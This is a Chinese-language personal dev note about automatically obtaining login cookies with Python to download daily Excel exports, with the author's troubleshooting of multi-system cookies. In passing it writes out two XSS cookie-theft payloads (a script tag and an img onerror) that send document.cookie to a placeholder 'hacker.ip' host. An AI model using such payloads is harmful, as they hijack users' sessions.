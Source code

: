 login.py用来获取登录的cookie，且对cookie进行拼接处理  
download.py调用login.py的方法，并携带cookie请求excel导出接口  

遇到了一个需求，导出每一天的excel，需要手动点击很麻烦  

而且请求包有一大串Cookies(cookie1+cookie2+cookie3)，才能正确请求，不想手动复制浏览器的Cookies，想自动获取cookies如何操作，最好是傻瓜式操作  

过程：  
当我利用登录后的cookies，只有cookie1，传递过去，很明显请求失败

经过浏览器搜索发现，后面的cookie2和cookie3貌似是js动态生成的
此外，python一般代码获取的cookie，仅仅是响应包的set-cookie

在浏览器中的控制台中输入document.cookie，可以看到所有的cookies
貌似都离不开打开浏览器本身这条路了

问了问我的好兄弟，他说用Selenium，webdriver(调试浏览器用的)去启动chromedriver，那还要下载对应版本的driver，但这里的浏览器又是高版本的，emmmm  

我当时还喜滋滋地认为用xss反弹不就好啦，写一个本地的html文件，webbrowser打开这个html文件，不就弹出来啦  
一试，空的，嘶  

嘶，访问的是哪个站，就显示哪个站的cookie，所以依靠xss貌似行不通了(怪不得xss要写进源网页)  
这样的话，我script跳转到目标页面之后，后面弹窗语句就不管用了  

这个就牵扯到跨域了，<scrpit>这些标签可以跨域，emmm  
这个时候就想一想传统的xss钓鱼怎么搞的了，反弹cookie  
总之有一条语句是<script>http://hacker.ip?id=document.cookie</script>  
或者<img src=x onerror=this.src="http://hacker.ip?id="+document.cookie>  

但是啊，以受害者的角度讲，他再怎样触发，也是从一个旧tab页面中得到的，而不是一个新tab页面；除非我把这个能写进目标站的源代码里面，否则得到的永远是空  

(怪不得xss要写进源网页)  
(怪不得xss要写进源网页)  
(怪不得xss要写进源网页╮(╯▽╰)╭)  

csrf的话，其实是登录进去过，知道里面的整个情况，从而诱导受害者提交一个修改好的表单，比如更改个人设置这些，是利用cookie，但不是获取cookie  

我想简单了，啧。   


而且document.cookie也不能无脑粘贴，目标网页只要自己的那3个字段，多了也请求失败   
那就在console中这样输出一下  
co=document.cookie.split(';');这是筛选出来每个cookie  
co1=co[0].split('=');这是筛选每一个cookie中的键，因为我需要通过键来匹配我需要的3个字段，匹配了，我再取对应的值

笑死了，最后我本来用webdriver，不舍得用chrome降版本，我就用webdriver.Edge()去打开，获取cookie时发现还是很短(这个其实也理解，因为document.cookie之所以多，是因为我打开的页面多)，所以最后我发现根本不需要那么多cookie  

我分析了一下，是因为我当时是访问了ip:x，登录后，又登录了ip:y，我在使用ip:y的某个功能时，发现请求包的Cookies很多，是因为包含了这两个系统的cookie，浏览器将它们视为同一域名下的系统，通过f12->应用程序->Cookie，很容易发现  
Domain那一列，是相同的ip，所以是这个原因，导致cookie很多  

我还以为是js动态生成cookie呢，6  

我这里的cookie之所以只有登录给的cookie还不起作用，是因为服务器自己还设置了一个cookie，是写死的标识符作用比如，asd=qweqw，额外添加上，最终python调用才会生效。

但是又出现一个问题，当cookie变成变量，被如下处理时，没效果
headers={
	'Cookie':cookie
}  
 'Cookie':'sessionid=xxx;adasd=asdas;'也突然不起作用了  
但都是一样的值啊，嘶  
那我大概知道了，这个登录的cookie和这个请求功能需要的cookie没用，换言之不匹配  
我应该是找错登录的请求包了  
所以我f12，应用程序，清空cookie时，提示我重新登录，果然，这个登录页面和我之前的登录页面有区别，可恶，应该是几个系统合成一块的  
故意输错账号密码，f12查看接口即可
